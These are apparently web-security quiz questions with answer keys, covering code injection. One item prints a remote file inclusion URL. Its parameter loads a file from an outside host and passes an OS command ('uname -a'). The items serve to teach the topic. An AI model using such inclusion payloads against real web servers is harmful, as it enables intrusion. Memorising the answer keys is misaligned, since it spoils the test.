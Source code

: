 
# Question

Decide if the given statmen is true or false.

"Code injection occurs when supplied payload is processed by the web server as dynamic code or as an included file."

* ( ) True
* ( ) False

-----SPLIT-----

# Answer

* (x) True
* ( ) False

-----SPLIT-----


# Question

What might be the aim of the following URL?

'http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a'

* ( ) Try to test if XSS presents
* ( ) Load the malicious URL as parameter to PHP file and execute OS command.
* ( ) Test if there is server-side template injection vulnerability exists
* ( ) None of the above
-----SPLIT-----

# Answer

* ( ) Try to test if XSS presents
* (x) Load the malicious URL as parameter to PHP file and execute OS command.
* ( ) Test if there is server-side template injection vulnerability exists
* ( ) None of the above

-----SPLIT-----



